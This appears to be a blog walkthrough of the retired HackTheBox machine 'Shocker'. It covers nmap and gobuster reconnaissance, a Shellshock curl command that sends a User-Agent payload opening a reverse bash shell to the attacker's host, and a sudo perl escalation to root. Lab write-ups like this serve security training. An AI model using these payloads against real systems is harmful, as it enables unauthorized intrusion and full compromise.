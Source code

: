 ```yaml
---
layout: post
title: "HTB-Shocker"
date: 2020-02-16 22:02:00 +0000
categories: HTB-Walkthrough
---
```


![shocker](/assets/img/shocker.png)

This is another box from the HTB 'retired' list, it's also very much like one of the boxes found in the PWK labs on the way to the OSCP qualification.

Jumping in with Nmap then...

`nmap -sV -Pn 10.10.10.56 |tee -a shock.txt`

```

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Unusual to find ssh on a port other than 22, a bit of security through obscurity perhaps, it may mean that it is somehow otherwise vulnerable.
Lets check out this possibility with nmap...

```shell

root@kali:~/HTB/prep/shocker# nmap -sSV 10.10.10.56 --script=vuln |tee -a shock.txt 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-09 18:40 GMT
Nmap scan report for 10.10.10.56
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Nothing immediately apparent, and nikto on the webport 80 gives nothing.

gobuster finds /cgi-bin with a common.txt scan...we'll scan again looking for scripts...

```shell

root@kali:~/HTB/retired# gobuster dir -u http://10.10.10.56/cgi-bin/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -x .sh,.txt,.php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /root/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     sh,txt,php
[+] Timeout:        10s
===============================================================
2020/02/16 18:16:23 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.sh (Status: 403)
/.hta.txt (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.sh (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.sh (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/user.sh (Status: 200)
===============================================================
2020/02/16 18:19:33 Finished
===============================================================

```

/user.sh needs to be looked at...

```

Content-Type: text/plain

Just an uptime test script

 18:24:12 up 54 min,  0 users,  load average: 0.01, 0.00, 0.00

```

Well, nothing usefull in itself, but what it does mean (cgi-bin accessible), is that this installation of Apache will likely be vulnerable to a Shellshock exploit.

```shell

curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.34/6969 0>&1' http://10.10.10.56/cgi-bin/user.sh

```

This attempt works straight off the bat...Shellshock is  an important vulnerability to know about.
[Wiki on shellshock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29)

#####################

So we got user shell on the target...

```

shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

`sudo -l` is always one of the first commands I try when I get an user shell, for this sort of reason.
Getting root now is very simple. Shelly can execute a perl command or script using sudo (which gives 'super user' privileges) without having to enter a password.
We can use this to invoke a bash shell that will reflect the privileges of the user that called it. Since sudo commands are run 'as root', the resulting shell will be a root shell.

```

shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/home/shelly
ls
user.txt
cat user.txt
2exxxxxxxxxxxxxxxxxxxxxxxxxxxx33
cat /root/root.txt
5xxxxxxxxxxxxxxxxxxxxxxxxxxxxx67

```

#########################

Simple when you know.
